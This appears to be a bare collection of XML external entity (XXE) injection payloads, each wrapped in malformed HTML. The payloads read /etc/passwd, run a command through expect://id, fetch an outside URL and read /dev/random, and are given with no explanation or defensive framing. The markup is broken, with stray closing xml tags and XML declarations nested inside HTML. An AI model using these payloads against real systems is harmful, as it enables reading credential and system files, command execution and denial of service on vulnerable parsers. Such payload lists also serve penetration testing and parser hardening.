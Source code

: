 

<html>
<body>
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<!DOCTYPE foo 
[<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<FUNCTION>
<NAME>&xxe;</NAME>
</FUNCTION>
</body>
</xml>
</html>


<html>
<body>
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
</body>
</xml>
</html>

<html>
<body>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "https://en.wikipedia.org/"> ]>
</body>
</xml>
</html>


<html>
<body>
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
</body>
</xml>
</html>

<html>
<body>
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
  <user>`&xxe;`</user>
  <pass>`mypass`</pass>
</creds>
</body>
</xml>
</html>

<html>
<body>
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///dev/random" >]>
<foo>&xxe;</foo>
</body>
</xml>
</html>








```xml
<myxml>
   <someElement />  
</myxml>
```